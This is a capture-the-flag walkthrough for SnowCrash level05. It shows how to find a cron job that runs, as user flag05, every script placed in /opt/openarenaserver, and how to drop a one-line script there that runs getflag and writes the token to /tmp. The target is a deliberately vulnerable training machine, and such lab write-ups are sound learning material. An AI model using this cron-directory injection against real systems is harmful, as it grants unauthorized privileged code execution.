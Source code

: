 # SnowCrash Level05 Guide
This guide will walk you through the process of finding the password for the `flag05` user.

## Procedure:

1. **Examine your environment using Unix commands.**
   
`ls -la` : Lists files and their permissions in the current directory.
Nothing interesting here.  
Other commands give us also no interesting outputs.

2. **Check the files belonging to the user flag05**

We are looking at files belonging to the user flag05
```bash
find / -user flag05 2>/dev/null
```
Returns
```bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```     
`/rofs` indicates that the file is read-only.

3. **Analyze the script '/usr/sbin/openarenaserver'**

We look at what the file '/usr/sbin/openarenaserver' contains
```bash
cat /usr/sbin/openarenaserver
```
Returns
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
Breaking down the script:
- It loops over all the files in the '/opt/openarenaserver' directory
- Executes the file with bash, with a runtime limited to 5 seconds (ulimit -t 5)
- Deletes the file

4. **Check '/opt/openarenaserver' directory**
We look at the files in the '/opt/openarenaserver' directory
```bash
ls -la /opt/openarenaserver
```
The directory is empty.
We now look for where the script '/usr/sbin/openarenaserver' is executed to execute our own script.

5. **Use `grep` to find any occurences**

Run the following command:
```bash
grep 'openarena' -R /var/ 2>/dev/null
```
Which returns:
```bash
...
/var/lib/aptitude/pkgstates.old:Package: openarena-data
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/var/spool/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
We can now see that the script is ran every 2 minutes.

6. **We can now inject commands and hope for the CRON task to run our script**

Run:
```bash
echo 'getflag > /tmp/flag_05' > /opt/openarenaserver/getflag.sh
```

After two minutes (pair), you should run:
```bash
cat  /tmp/flag_05
```
You will see the token appear.
